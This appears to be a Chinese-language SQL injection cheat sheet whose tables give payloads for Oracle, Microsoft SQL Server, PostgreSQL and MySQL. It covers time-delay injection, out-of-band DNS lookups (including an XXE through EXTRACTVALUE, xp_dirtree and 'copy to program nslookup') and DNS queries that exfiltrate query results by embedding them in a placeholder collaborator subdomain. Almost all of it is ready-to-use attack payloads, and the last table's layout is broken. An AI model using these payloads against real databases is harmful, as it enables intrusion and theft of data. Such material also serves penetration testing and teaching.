 ### 时间延迟

| 数据库类型 |                语句                 |
| :--------: | :---------------------------------: |
|   Oracle   | dbms_pipe.receive_message(('a'),10) |
| Microsoft  |       WAITFOR DELAY '0:0:10'        |
| PostgreSQL |         SELECT pg_sleep(10)         |
|   MySQL    |          SELECT SLEEP(10)           |

### DNS查询

| 数据库类型 | 语句                                                                                                                                                                                |
| :--------: | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|   Oracle   | 该例子利用XXE触发，漏洞已被修复，但有的网站用的Orcale没修复：                                                                                                                       |
|            | SELECT EXTRACTVALUE(xmltype('<\?xml version="1.0" encoding="UTF-8"?><\!DOCTYPE root [ <\!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual |
|            | 以下用于打了补丁后的，但需要高权限:                                                                                                                                                 |
|            | SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')                                                                                                                   |
| Microsoft  | exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'                                                                                                                           |
| PostgreSQL | copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'                                                                                                                  |
|   MySQL    | 下面例子只适用于Windows:                                                                                                                                                            |
|            | LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')                                                                                                                                     |
|            | SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'                                                                                                                         |

### 带有数据过滤的DNS查询

| 数据库类型 | 语句                                                                                                                                                                                                                   |
| :--------: | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --- | --- | --- | --------------------------------- |
|   Oracle   | SELECT EXTRACTVALUE(xmltype('<\?xml version="1.0" encoding="UTF-8"?><\!DOCTYPE root [ <\!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual |
| Microsoft  | declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')                                                                                           |
| PostgreSQL | create OR replace function f() returns void as $$                                                                                                                                                                      |
|            | declare c text;                                                                                                                                                                                                        |
|            | declare p text;                                                                                                                                                                                                        |
|            | begin                                                                                                                                                                                                                  |
|            | SELECT into p (SELECT YOUR-QUERY-HERE);                                                                                                                                                                                |
|            | c := 'copy (SELECT '''') to program ''nslookup '                                                                                                                                                                       |     | p   |     | '.BURP-COLLABORATOR-SUBDOMAIN'''; |
|            | execute c;                                                                                                                                                                                                             |
|            | END;                                                                                                                                                                                                                   |
|            | $$ language plpgsql security definer;                                                                                                                                                                                  |
|            | SELECT f();                                                                                                                                                                                                            |
